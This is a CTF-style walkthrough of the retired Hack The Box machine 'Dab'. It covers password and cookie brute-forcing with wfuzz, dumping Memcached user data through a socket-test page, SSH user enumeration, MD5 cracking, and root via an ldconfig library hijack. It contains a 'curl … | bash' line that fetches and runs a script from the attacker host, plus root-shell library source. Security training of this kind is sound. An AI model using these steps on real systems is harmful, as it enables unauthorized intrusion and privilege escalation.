






# Dab

This is the write-up for the box Dab that got retired at the 2nd February 2019.
My IP address was 10.10.14.19 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.86    dab.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/dab.nmap 10.10.10.86
```

```markdown
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0            8803 Mar 26  2018 dab.jpg
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.19
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:05:77:1e:73:66:bb:1e:7d:46:0f:65:50:2c:f9:0e (RSA)
|   256 61:ae:15:23:fc:bc:bc:29:13:06:f2:10:e0:0e:da:a0 (ECDSA)
|_  256 2d:35:96:4c:5e:dd:5c:c0:63:f0:dc:86:f1:b1:76:b5 (ED25519)
80/tcp   open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
| http-title: Login
|_Requested resource was http://10.10.10.86/login
8080/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Internal Dev
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking FTP (Port 21)

As the enumeration shows, _anonymous login_ is allowed and in the directory is one file called _dab.jpg_.
On the image is a dabbing character from a show.

After checking it for hidden data, there is nothing to be found.

## Checking HTTP (Port 80)

The web page forwards to _/login_ which is a login form that needs an username and password.

Lets send it to a web proxy tool like **Burpsuite** to get the parameters and fuzz the password with **Wfuzz**:
```markdown
wfuzz -c -w /usr/share/seclists/Passwords/darkweb2017-top1000.txt -d 'username=admin&password=FUZZ&submit=Login' --hw 36 http://10.10.10.86/login
```

It shows four results, but three of them got Unicode characters in them and resolve in a _HTTP 500 error_, thus only one of them is the correct password:
> Password1

The password works and it forwards us to a list of items in a stock. It says that the database updates every few hours.
In the HTML source is a comment that says the following:
```markdown
<!-- Debug... data tables were loaded from : MySQL DB -->
```

If the page gets refreshed, the order of the items change and also the comment:
```markdown
<!-- Debug... data tables were loaded from : Cache -->
```

This means there is some kind of caching mechanism that needs to be abused, but at this point we don't have any way how to do this.

## Checking HTTP (Port 8080)

The front page of the site says:
```markdown
Access denied: password authentication cookie not set
```

When setting any Cookie with the password key, that message says that the cookie is incorrect:
```markdown
Cookie: password=Test123
```
```markdown
Access denied: password authentication cookie incorrect
```

Lets fuzz the value of this password Cookie with **Wfuzz**:
```markdown
wfuzz -c -w /usr/share/seclists/Passwords/darkweb2017-top1000.txt -H 'Cookie: password=FUZZ' --hw 29 http://10.10.10.86:8080
```

It shows one result:
> secret

So after setting the cookie _"Cookie: password=secret"_, it forwards to another page:



### Enumerating "TCP socket test" Application

In summary, this application does the following:
- Sending an open port (22) to application: Shows the header of that service:



- Sending a closed port: Shows an _Internal Server Error_
- Sending invalid data to port 80: Shows the header with an HTTP status code _400 Bad Request_:



- Sending valid data _(GET HTTP/1.1)_ to port 80: Shows the message _"Suspected hacking attempt detected"_

It seems to have some kind of block list, so try every character with **Wfuzz**:
```markdown
wfuzz -c -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt --hw 84 'http://10.10.10.86:8080/socket?port=80&cmd=FUZZ'
```

The results are all special characters, which means every special character is forbidden to sent to the application except for _spaces_.

Lets also fuzz the ports as it could show locally running services:
```markdown
wfuzz -c -z range,1-65535 --hc 500 'http://10.10.10.86:8080/socket?port=FUZZ&cmd=test'
```

It found the ports that Nmap also found and also another port: _11211_

When sending any data to port 11211 in the application, it outputs _"ERROR"_ which is different from an invalid port, so this port reacts to requests.

We don't know which service runs there but [the list of TCP and UDP ports](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers) shows, that by default **Memcached** runs on this port.

### Enumerating Memcached (Port 11211)

**Memcached** is a service for reducing the load of requests to other services, by saving the queries in memory for a user-configurable amount of time.
This is also what happens on _port 80_, when the **MySQL database** send the data first, but after refreshing, **Memcached** sent the cache that was saved in memory for a while.

To get any useful responses, this [Memcached Cheat Sheet](https://lzone.de/cheat-sheet/memcached) has some commands to test, so sending _version_ as data to the service:



To get the information that is stored in Memcached, so called _slabs_ are used. The command to display them is `stats slabs`:
```markdown
GET /socket?port=11211&cmd=stats+slabs
```
```markdown
STAT 16:chunk_size 2904
(...)
STAT 26:chunk_size 27120
(...)
STAT active_slabs 2
```

There are two slabs _(STAT 16 and STAT 26)_ with different sizes.

Looking into the items of _STAT 16_ first with `stats cachedump 16 0`:
```markdown
GET /socket?port=11211&cmd=stats+cachedump+16+0
```
```markdown
ITEM stock [2807 b; 1601303385 s]
```

The item name is _stock_ and that seems to be the data that port 80 cached.
Lets see what it consists of with `get stock`:
```markdown
GET /socket?port=11211&cmd=get+stock
```
```markdown
END
```

The cache is empty, but we can put something in there by refreshing the web service on _port 80_ a few times and look into the contents of the cache again:
```markdown
VALUE stock 0 2807
(All the items)
END
```

After waiting some seconds and sending the request again, the contents of the _stock_ cache gets emptied.

Now looking into the items of _STAT 26_ with `stats cachedump 26 0`:
```markdown
GET /socket?port=11211&cmd=stats+cachedump+16+0
```
```markdown
ITEM users [24625 b; 1601309431 s]
```

The item name is _users_, so lets see what it consists of with `get users`:
```markdown
GET /socket?port=11211&cmd=get+users
```
```markdown
END
```

The cache is empty, but assuming it is for caching the user sessions, it should fill with information when logging into the web service on _port 80_.
After logging in again, it shows all the users:
```markdown
VALUE users 0 24625
(All the users)
END
```

This output can be decoded with **Burpsuite** _Smart decode_ and it gets formatted into JSON data, which can be made readable with `jq`.
```markdown
jq . users.json
```

## Enumerating SSH with the Usernames

There are almost 500 usernames in this list, so putting the usernames and the hashed passwords into separate files:
```markdown
jq . users.json | awk -F\" '{print $2}' > users.lst
jq . users.json | awk -F\" '{print $4}' > passwords.txt
```

The passwords have 32 characters and are probably **MD5 hashes**.

Now an user enumeration script for _SSH_ with **Metasploit** can be used:
```markdown
msf5 > use auxiliary/scanner/ssh/ssh_enumusers

set RHOSTS 10.10.10.86
set THREADS 50
set USER_FILE users.lst

run
```

After it finishes, it found one valid username called _genevieve_.
This users password hash is _fc7992e8952a8ff5000cb7856d8586d2_ and can be found in openly accessible hash databases like [Crackstation](https://crackstation.net/) and the password is:
> Princess1

Alternative: Cracking MD5 hash with **Hashcat**:
```markdown
hashcat -m 0 genevieve.hash /usr/share/wordlists/rockyou.txt
```

Access with this user on SSH works:
```markdown
ssh genevieve@10.10.10.86
```

## Privilege Escalation

To get an attack surface on the box, running any **Linux Enumeration script** on it:
```markdown
curl 10.10.14.19/LinEnum.sh | bash
```

After analyzing the output, there are interesting _SUID files_:
- /usr/bin/myexec
- /sbin/ldconfig
- /sbin/ldconfig.real

The _myexec_ binary asks for a password and does nothing else. Lets download it and analyze it with **Radare2**:
```markdown
r2 myexec
```

Analyzing all flags (`aaa`) and list functions (`afl`), there is only the _main_ function that is is interesting.
Disassembling the _main_ function (`pdf @ main`) and it shows a password in there:



> s3cur3l0g1n

When using this password on the binary, it shows a different response:
```markdown
Enter password: s3cur3l0g1n
Password is correct

seclogin() called
TODO: Placeholder for now, function not implemented yet
```

This function is not in the binary, so it probably is in a _linked library_:
```markdown
ldd /usr/bin/myexec
```
```markdown
libseclogin.so => /usr/lib/libseclogin.so (0x00007f688140e000)
```

When analyzing it with **Radare2**, this is the library that is responsible for the placeholder text:



This kind of dynamic linking is handled by **ldconfig**, which has **SUID permission**.
The configuration files for this can be found in _/etc/ld.so.conf.d_ and in there is a configuration file _test.conf_ which links to _/tmp_.

So this means, when placing files in _/tmp_ and run _ldconfig_, it will repopulate the caching of libraries on the system and link to ours.
The goal is to link the _libseclogin.so_ to another library.

### Linking a new Library

Because we have control over _ldconfig_, linking the library to another should be possible.

Creating _libseclogin.c_:
```c
#include <stdlib.h>
extern int seclogin();

int seclogin(){
        setreuid(0,0);
        execve("/bin/bash", NULL NULL);
}
```

Compiling it into a _shared library_:
```markdown
gcc -shared -fPIC -o libseclogin.so libseclogin.c
```

Placing the library in _/tmp_:
```markdown
cp libseclogin.so /tmp
```

Running `ldconfig` to repopulate the caching of libraries:
```markdown
ldconfig
```

Now when checking the libraries of _/usr/bin/myexec_, it points to our created library:
```markdown
ldd /usr/bin/myexec
```
```markdown
libseclogin.so => /tmp/libseclogin.so (0x00007fcb62180000)
```

When running _myexec_ now and input the password, it will start a bash shell as root!
```markdown
Enter password: s3cur3l0g1n
Password is correct

bash-4.3# id
uid=0(root) gid=1000(genevieve) groups=1000(genevieve)
```
